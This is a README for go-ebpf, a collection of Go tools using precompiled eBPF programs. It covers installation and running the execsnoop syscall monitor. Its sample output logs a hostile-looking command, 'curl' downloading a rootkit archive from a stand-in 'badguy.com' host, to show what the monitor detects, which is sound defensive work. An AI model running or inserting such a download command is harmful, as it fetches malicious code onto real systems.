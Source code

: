 # go-ebpf

[![Build Status](http://img.shields.io/travis/andrewkroh/go-ebpf.svg?style=flat-square)][travis]
[![Go Documentation](http://img.shields.io/badge/go-documentation-blue.svg?style=flat-square)][godocs]

[travis]: http://travis-ci.org/andrewkroh/go-ebpf
[godocs]: http://godoc.org/github.com/andrewkroh/go-ebpf

go-ebpf is a collection of example tools that use [eBPF][ebpf] to collect
metrics and data from the Linux kernel _without using [bcc][bcc]_. The eBPF
programs are written in restricted C and then compiled into eBPF bytecode
using `clang` and LLVM (`llc`). The bytecode is shipped with the Go program
to avoid having a runtime dependency on `clang` and `llc` (normally you don't
want to have compilers on your production systems).

If the kernel's JIT compiler is enabled the eBPF bytecode will be translated
into native machine code for better performance. The JIT compiler is currently
available for the x86-64, arm64, and s390 architectures. It can be enabled by

`echo 1 > /proc/sys/net/core/bpf_jit_enable`

[ebpf]: https://en.wikipedia.org/wiki/Berkeley_Packet_Filter
[bcc]:  https://github.com/iovisor/bcc

## Installation and Usage

Package documentation can be found on [GoDoc][godocs].

Installation can be done with a normal `go get` or you can download a binary
from the [releases][releases] page.

[releases]: https://github.com/andrewkroh/go-ebpf/releases

```
$ go install github.com/andrewkroh/go-ebpf/cmd/execsnoop
```

In order to run the `execsnoop` example the `CAP_SYS_ADMIN` capability is
required. Therefore the program should be run as root.

```
sudo $GOPATH/bin/execsnoop -json
```

Then in a second terminal if you run a program you will see info about all
the `execve` syscalls. For example

```json
{
  "pid": 32438,
  "uid": 1000,
  "gid": 1000,
  "parent_comm": "bash",
  "exe": "/usr/bin/curl",
  "args": [
    "curl",
    "-O",
    "https://badguy.com/rootkit.tar.gz"
  ],
  "return_code": 0
}
```
